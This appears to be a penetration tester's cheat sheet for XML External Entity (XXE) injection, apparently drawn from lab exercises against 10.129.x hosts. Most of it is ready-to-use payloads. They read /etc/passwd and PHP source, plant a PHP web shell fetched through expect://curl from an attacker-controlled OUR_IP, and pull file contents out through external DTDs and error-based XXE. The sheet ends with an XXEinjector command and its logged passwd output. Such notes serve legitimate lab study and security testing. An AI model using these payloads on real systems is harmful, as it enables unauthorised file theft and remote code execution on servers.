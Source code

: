 ##### Identify
```xml
<!DOCTYPE email [
  <!ENTITY xxe "Pwn3d!">
]>

<object>
&xxe;
</object>
```

##### LFI
```xml
<!DOCTYPE email [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<object>
&xxe;
</object>
```

##### Source code (PHP)
```xml
<!DOCTYPE email [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>

<object>
&xxe;
</object>
```

##### RCE
```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
updog -p 80
```

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&xxe;</email>
<message></message>
</root>
```

##### LFI w/ CDATA (Vendor neutral)
```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
updog -p 80
```

Injection
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

##### Error Based XXE
Create error by changing tag
```xml
<root>asd</roo>
```

Host payload
```bash
vi xxe.dtd
```
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
```bash
updog -p 80
```

Inject
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP/xxe.dtd">
  %remote;
  %error;
]>
```

##### Automated Blind XXE
Copy Burp request but only keep first xml format like and add `XXEINJECT`
```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Run tool. Add `--phpfilter` for php files

```bash
ruby XXEinjector.rb --host=10.10.15.155 --httpport=8000 --file=xxe.req --path=/etc/passwd --oob=http --phpfilter

cat Logs/10.129.201.94/etc/passwd.log 

```